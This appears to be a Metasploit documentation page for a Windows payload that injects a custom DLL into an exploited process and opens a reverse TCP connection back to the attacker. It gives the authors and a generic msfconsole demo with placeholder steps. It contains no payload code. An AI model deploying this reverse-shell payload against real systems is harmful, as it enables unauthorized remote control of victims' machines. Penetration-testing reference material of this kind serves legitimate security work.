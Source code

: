 ## Windows Inject DLL, Reverse TCP Stager

Inject a custom DLL into the exploited process. Connect back 
to the attacker


## Module Name
payload/windows/patchupdllinject/reverse_tcp

## Authors
* jt <jt@klake.org>
* skape
* hdm
* sf





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupdllinject/reverse_tcp
msf payload(reverse_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_tcp) > set TARGET <target-id>
msf payload(reverse_tcp) > show options
   ... show and set options ...
msf payload(reverse_tcp) > run
```
    
    